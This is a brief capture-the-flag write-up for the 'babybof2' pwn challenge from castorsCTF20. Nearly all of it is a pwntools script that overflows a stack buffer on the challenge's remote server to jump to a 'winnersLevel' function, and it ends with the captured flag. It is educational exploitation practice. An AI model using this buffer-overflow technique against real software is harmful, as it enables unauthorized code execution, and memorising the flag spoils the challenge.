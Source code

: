 ```yaml
---
type: "post"
title: "babybof2"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


With same strategy as `babybof1` we can get the flag

```python
from pwn import *

winnersLevel_addr = 0x08049196
param_1 = 0x182

#p = process("./winners")
p = remote("chals20.cybercastors.com", 14434)

padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload = padding + p32(winnersLevel_addr) + "CCCC" + p32(param_1)
p.sendline(payload)
print(payload)
p.interactive()
```

**Flag:** `castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}`



